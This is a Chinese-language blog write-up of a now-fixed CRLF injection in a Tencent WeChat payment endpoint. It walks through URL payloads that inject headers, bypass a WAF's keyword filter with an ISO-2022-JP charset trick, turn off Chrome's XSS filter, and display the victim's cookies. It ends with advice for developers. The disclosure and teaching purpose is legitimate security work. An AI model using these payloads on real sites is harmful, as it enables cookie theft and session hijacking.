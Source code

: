 title: "CRLF Injection and Bypass Tencent WAF"
date: 2016-01-31 14:01:31
tags: [XSS, 安全]
---

## 前言

这是一篇关于HTTP Response Split（CRLF Injection）漏洞的及绕过腾讯WAF导致前端出现XSS的实例分析，个人觉得在这个过程中能学到点知识，因此整理出来分享一下，如果不感兴趣记得及时关闭页面。

## 关于HRS问题

我们都知道，HTTP协议是依靠两个CRLF，即`\r\n`来分割HTTP头部及响应体。基于这个认知，可以推出，HRS问题是由于服务端程序没有过滤掉头部中的特殊字符`%0D%0A`，直接输出到了返回的数据中，导致错误的解析。而在日常开发中，最常见的莫过于有以下的两种功能（1）URL跳转（2）Cookie的设置中出现。接下来的小节里，将会以一个Cookie实例作来说明这个问题的危害。实例在：http://wooyun.org/bugs/wooyun-2016-0173904 ，目前腾讯已经修复了。

## 接口说明

这个接口在大家使用微信红包的过程中都用过，我用xxx.com代表接口的域名，具体接口的功能我就先不说，虽然危害不大。接口如下：
```
https://xxx.com/cgi-bin/xxx/geiwofahongbaowojiugaosuni?exportkey=&pass_ticket=a
```

返回
```
HTTP/1.1 200 OK
Server: nginx/1.6.0
Date: Sat, 30 Jan 2016 12:08:28 GMT
Content-Type: text/html; charset=gbk
Content-Length: 0
Connection: keep-alive
Cache-Control: no-cache, must-revalidate
Set-Cookie: pass_ticket=a; Domain=xxx.com; Path=/; Expires=Sun, 31-Jan-2016 12:08:28 GMT
```

在微信端这个接口其实没有什么问题，因为微信客户端会把这个参数替换掉，因此攻击者填入的参数就会被直接去掉，然而在浏览器中，却导致了XSS。

## 一步一个脚印

#### 0x00 插入img标签

从上面接口的返回数据中，可以看到pass_ticket参数的值出现在了Set-Cookie头部中，我们先试试能不能用插入两个CRLF，然后插入img标签。
```
exportkey=&pass_ticket=a%0d%0a%0d%0a%3Cimg%20src=1%3E
```
然而这个请求返回了空，浏览器根本不去解析body里的内容。不能放弃，通过curl分析一下，发现其实后端并没有过滤，请求都返回了，只是Content-Length为0导致浏览器认为Body为空，使用命令`curl -kv <url>`可以看到以下的错误提示。
```
* Excess found in a non pipelined read: excess = 84 url = 
  /cgi-bin/xxx/geiwofahongbaowojiugaosuni?exportkey=&pass_ticket=a%0d%0a%0d%0a%3Cimg%20src=1%3E
  (zero-length body)
```
知道问题之后，我们下一步就是想方法让Content-Length的值不为0！试着在头部插入`Content-Length: 60`,得到以下的URL
```
exportkey=&pass_ticket=a%0d%0aContent-Length:60%0d%0a%0d%0a%3Cimg%20src=1%3E
```
浏览器里访问，bingo，图片出现了！

```
HTTP/1.1 200 OK
Server: nginx/1.6.0
Date: Sat, 30 Jan 2016 12:15:03 GMT
Content-Type: text/html; charset=gbk
Content-Length: 60
Connection: keep-alive
Cache-Control: no-cache, must-revalidate
Set-Cookie: pass_ticket=a

<img src=1>; Domain=wx.tenpay.com; Path=/; Expires=Sun, 31-J
```


![](https://raw.githubusercontent.com/zhchbin/zhchbin.github.io/source/source/images/56af0f2a143cfa3753b39a38XV1CJIiq.png)

#### 0x01 尝试执行脚本

能够插入img标签之后，我半生不熟的前端知识告诉我，src=1，图片肯定会加载失败，失败了就会有onerror的事件发生。于是，试试下面的URL
```
exportkey=&pass_ticket=a%0d%0aContent-Length:60%0d%0a%0d%0a%3Cimg%20src=1%20onerror=alert(1)%3E
```
事实告诉我们，现实并没有想象中的美好，服务器直接返回了501，这是什么原因导致的？尝试几次之后推断是被WAF拦截了。WAF是Web Application Firewall的缩写，我们的“恶意”请求被它检查出来。试了一下，发现在被和谐的的onerror和alert中间插入一些其他字符，就不会被拦截，例如：`on\error=al\ert(1)`，然而这并没有什么卵用，因为这根本就不是合法的HTML属性。

#### 0x02 Bypass WAF

有WAF，就得考虑如何绕过，然而在确认了自己的认知范围里并没有绕过的方法后，我去请教了[@mramydnei](http://www.wooyun.org/whitehats/mramydnei)。以下是他提供的思路及Bypass WAF的例子：


大概原理就是： 

1. 插入Content-Type更改response中的charset
2. 选择一个字符集，保证该字符集中的某个字符或字符串会被浏览器忽略（也可以是unicode transform）
3. 将会被忽略的字符插入到被blacklist拦截的字符之间
4. done

```
exportkey=&pass_ticket=a%0D%0AContent-Length:120%0D%0AContent-Type:text/html;%20charset=ISO-2022-JP%0D%0A%0D%0A%3Cimg%20src=x%20on%1B%28Jerror=al%1B%28Jert%28document.domain%29%3E
```

看到他的回复后，我只有一个想法：人要有敬畏之心！后来找了一下，在Chrome的Issue List找到了一些相关的讨论，https://crbug.com/114941

#### 0x03 绕过浏览器的XSS过滤

由于是反射型的XSS，Chrome里直接访问的时候会发现它拦截了脚本的执行，虽然在firefox里是可行的。从上面中的分析过程中，我们可以知道一个事情：可以在返回的头部的信息里插入任何头部信息！这看上去很赞，于是就想起了Chrome的XSS过滤是可以被关闭的，只要你返回的头部中带有`X-XSS-Protection:0`，构造URL如下：

```
?exportkey=&pass_ticket=a%0D%0AContent-Length:120%0D%0AX-XSS-Protection:0%0D%0AContent-Type:text/html;%20charset=ISO-2022-JP%0D%0A%0D%0A%3Cimg%20src=x%20on%1B%28Jerror=%22al%1B%28Jert%28document.co%1B%28Jokie%29%22%3E
```
点击后可以看到页面弹出了用户的Cookie，好了。虽然我们的`xxx.com`只是它的某个子域，这里的Cookie却弹出了其他子域名的，为什么呢？因为前端用了`document.domain = xx.com`。

![](https://raw.githubusercontent.com/zhchbin/zhchbin.github.io/source/source/images/56af08cb143cfae54c9777d4NE61bZEx.png)

## 最后说几句

在这个过程中，你学到了什么呢？反思这个过程，我觉得是信息量好大。对于我们做开发的，我认为最重要的一点是，用户的输入都是不可信的（这句话已经被无数人说过无数次了应该）。另外我读了一下Python Web框架里的一些代码，发现有些框架已经帮我们处理掉部分问题，例如在Flask中调用设置Cookie的相关接口中，`werkzeug`会使用白名单的机制检查每个byte，如果发现恶意字符，则将输入的值中用双引号包围起来，同时还有转义一部分字符，具体代码在这里：https://github.com/mitsuhiko/werkzeug/blob/master/werkzeug/_internal.py#L222 。

放几个参考链接：

0. https://en.wikipedia.org/wiki/HTTP_response_splitting
1. http://blog.bentkowski.info/2014/07/google-doodle-xss-actually-response.html 
2. http://drops.wooyun.org/papers/2466
